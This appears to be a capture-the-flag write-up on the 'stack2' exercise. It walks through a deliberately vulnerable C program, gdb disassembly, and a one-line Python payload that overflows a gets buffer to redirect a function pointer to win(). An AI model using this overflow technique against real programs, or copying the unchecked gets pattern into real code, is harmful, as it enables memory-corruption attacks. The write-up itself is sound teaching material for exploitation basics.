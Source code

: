 ```yaml
---
title:  "stack2 Writeup"
date:   2019-04-18 17:00:00
categories: writeup 
layout: post
---
```

# stack2 Overview
##### by Aidan O'Keefe

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  char buffer[64];
  FILE *fp;

  printf("code flow successfully changed\n");
  
  fp  = fopen("./flag.txt", "r");
  fgets(buffer, 64, (FILE*)fp);
  printf("flag: %s\n", buffer );
  exit(0);
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

stack2 is a variation on concepts introduced in stack0 and stack1 about buffer overflows. In the past, when attacking these buffer overflow problems, we would try to overwrite a specific variable to match a given value, or to hold a value at all.

stack2 eschews this by instead providing us with the same vulnerability we've attacked in the past (via gets) but instead tasking us with overwriting a function pointer that will be called in the future. This is a very exaggerated example (don't expect many real binaries to feature such a blatant vulnerability) to teach us the concepts behind function pointers.

We are focused primarily on the last if statement in main, which holds the key to executing our exploit. As we can see above, fp is set to 0 by default. We can open up stack2 in gdb and run the command 'disas main' to see where this falls on the stack:

```asm
0x0804857c <+17>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048583 <+24>:    sub    esp,0xc
0x08048586 <+27>:    lea    eax,[ebp-0x4c]
0x08048589 <+30>:    push   eax
```

We can see that we are moving the value for fp to 'ebp-0xc'. We also see via the lea and push instructions that the start of our stack is being placed 0x4c bytes away; with a quick subtraction, we can see that the size of our buffer is therefore 0x4c - 0xc = 64 bytes. We can also find this by running the function with strings of increasing length using python to print the same character (for instance, 'A') until we seg-fault by trying to access code at 0x41414141. Why does this cause a segfault? Let's look further inside main in gdb:

```asm
0x08048592 <+39>:    cmp    DWORD PTR [ebp-0xc],0x0
0x08048596 <+43>:    je     0x80485b0 <main+69>
0x08048598 <+45>:    sub    esp,0x8
0x0804859b <+48>:    push   DWORD PTR [ebp-0xc]
0x0804859e <+51>:    push   0x8048678
0x080485a3 <+56>:    call   0x8048390 <printf@plt>
0x080485a8 <+61>:    add    esp,0x10
0x080485ab <+64>:    mov    eax,DWORD PTR [ebp-0xc]
0x080485ae <+67>:    call   eax
```
When the cmp instruction is run, the program is simply checking to see if the value of fp is not 0. If we have overwritten it, we'll skip the next instruction (which would jump over the inside of the if statement and instead exits the program) and move into the body of the if statement. This prints the value of fp, then tries to call whatever is located at the address that fp points to. If we've loaded an invalid address, such as 0x41414141 (all 'A's!), we'll encounter a segfault. If we've loaded in the value of another function, this will be executed!

 Our goal becomes simple: we need to overwrite this function pointer's value on the stack to the value of win(). How can we accomplish this? First, let's find the address of win by running 'disas win' in gdb:

```asm
Dump of assembler code for function win:
    0x0804850b <+0>:     push   ebp
    0x0804850c <+1>:     mov    ebp,esp
    0x0804850e <+3>:     sub    esp,0x58
    0x08048511 <+6>:     sub    esp,0xc
    0x08048514 <+9>:     push   0x8048640
    0x08048519 <+14>:    call   0x80483c0 <puts@plt>
    0x0804851e <+19>:    add    esp,0x10
    0x08048521 <+22>:    sub    esp,0x8
    0x08048524 <+25>:    push   0x804865f
```

Ah-ha! We can see the location in the text where win is located at is 0x0804850b. Our solution becomes trivial at this point: we need to create an exploit string with our given padding (64 characters) followed by the location of win() in little endian format. Remember that since Linux is little endian, we start with the least significant byte and move right to left:

```
> python -c "print 'A'*64 + '\x0b\x85\x04\x08'" | ./stack2
calling function pointer, jumping to 0x0804850b
code flow successfully changed
flag: hello world!
```

Congratulations! You've now successfully exploited stack2 and are ready to move on to some of the more complex stack problems. Get ready for no-op sleds and shellcode!